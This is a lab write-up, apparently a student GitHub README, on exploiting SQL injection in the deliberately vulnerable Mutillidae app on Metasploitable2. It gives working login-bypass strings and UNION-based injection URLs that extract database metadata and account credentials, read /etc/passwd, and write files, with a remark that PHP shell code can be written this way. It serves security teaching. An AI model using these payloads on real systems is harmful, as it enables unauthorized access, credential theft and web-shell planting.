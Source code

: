 ![244885850-7a660480-5cb6-4d86-acd1-08f7a4d5e2fa](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/9125212e-7aa8-40c5-8e0b-3cdd1e00d164)# sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2
![244885508-4c83fc80-0108-44d7-92b8-b6292ec99686](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/4a15545a-d946-4031-8dfe-d1469d743301)
Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser. 
![244886609-81aa3c6a-fd5d-4b8f-8656-b921cd05e1f4](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/716e9eba-4725-46c1-a327-9c62708ac1e9)
Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![244885516-65d72597-0297-485a-8c57-d335bf885ba6](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/a1d37233-9611-45eb-b707-d0b39afab99b)
Click on the menu Login/Register and register for an account
![244885618-dfe4513c-3c0d-43e0-b1e4-ad4baee43b98](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/e35398b4-9245-459e-b16d-31c4a926b56a)
Click on the link “Please register here” 
![244885627-abd46fae-74a4-48e7-9f95-8eb1470cfe3c](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/d010b01e-f1d1-4d59-bf47-c17f8795e92a)

Click on “Create Account” to display the following page:
![244885637-499aca4d-391b-4f0e-ac33-31ace3337955](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/0aec6c4d-ac55-4614-893d-1459a1f65c6a)
The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.
![244885646-8ae683e6-f569-42f3-9c38-82bc3f9e6f41](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/3f367d29-88b3-4c4d-ad96-9e8e17b320b7)

Click “Login”. The logged in page will show as below:
![244885649-037084b7-47fb-40ac-85cc-43f91dde84b5](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/02c2f7b1-a819-4d73-80f4-70a09ebe6453)

## Bypassing login field

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.
![244885654-cb326fd0-509f-4df9-b97d-8a65bf1f0716](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/6d18f748-bb0a-459c-8780-be45224cfab0)

Click the login button and you will see it enter into the administrator page.
![244885664-ac33b189-494b-4a5f-bce2-b840ab35e5fc](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/0101f9bd-2c1a-4f3a-8235-04589de26a0b)

## Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info”

After logging out, Now choose the menu as shown below:
![244885675-123993df-2a2b-455f-abde-8904a72314dd](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/e094a740-ed30-4263-8d92-470e5e55102e)
![244885678-9b365f7e-d511-4ff4-a5fb-d33ee779cb86](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/721c4c81-add1-42bc-9dba-139670f99883)
![244885683-7b70cf08-aa04-4ba1-b7e5-12f048c98c57](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/77321afa-3568-46af-ad02-d551d966fabf)
![244885840-713a7087-4c4a-49a0-8c23-92af437df4b1](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/8d7e8361-297a-4628-bec9-3f6ca0557f9f)
![244885834-a242176f-df4f-4eb2-8296-0671fd7d7264](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/cf0eed7e-cb51-42fe-b81f-50a3c0c8eff1)

From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
![244885838-10c8f015-3770-46b5-b320-bf37cc7bbdae](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/9e875685-d903-42ab-a94f-971f5fde92c8)
Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details
![244885847-0eb340b9-63a6-433e-878b-45f3b396f1a2](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/dee4a69f-8908-4783-9ea9-653380b2f774)
After adding the order by 6 into the existing url , the following error statement will be obtained: 
![244885847-0eb340b9-63a6-433e-878b-45f3b396f1a2](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/95d0ada5-4ac6-4ac3-965e-2a4e355face5)

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6. 
![244885848-86073e2f-937b-47a4-9b9d-c0c2863b2a7c](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/5fdd0bc3-a864-49c1-b52b-0f99af21ee28)

As it is having 5 columns the query worked fine and it provides the correct result
![244885850-7a660480-5cb6-4d86-acd1-08f7a4d5e2fa](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/8b167303-5c75-4f29-8a92-02502ffc3dae)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![244885874-1c7ac260-3410-4f75-8091-2cda6b7f20c0](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/9c069767-0b4b-479c-9933-c8522b271a94)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![244885894-12ebac90-8efb-4558-a442-541029220fa3](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/d7f3fa30-5de9-4f07-85ef-12970758b690)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![244885896-78ba6fc7-7ab6-4c39-8a7f-c8e4240775b8](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/0877220e-86b4-4257-81a2-4276f2d4a4cb)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![244885899-68ccd33b-a98d-4ff6-8c19-57e63c2724d0](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/af8e7700-bc67-410a-88d6-f356d882e626)

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![244885902-c820f87a-30cb-485b-b423-f6fd0e67c96e](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/d14eb27d-41a1-4ba3-9776-16fb5585588d)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![244885902-c820f87a-30cb-485b-b423-f6fd0e67c96e](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/e7aa1889-af16-44fc-99b9-221e389a5db4)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![244885903-f7dd79fb-c11c-41f3-8019-06685e9cd759](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/14790d68-e91d-46f6-b071-92e143a8b894)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![244885909-13f4a113-06fc-4d62-a8ec-6525c4ec1343](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/b4044c51-49cf-4e43-abec-9748a04d298f)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
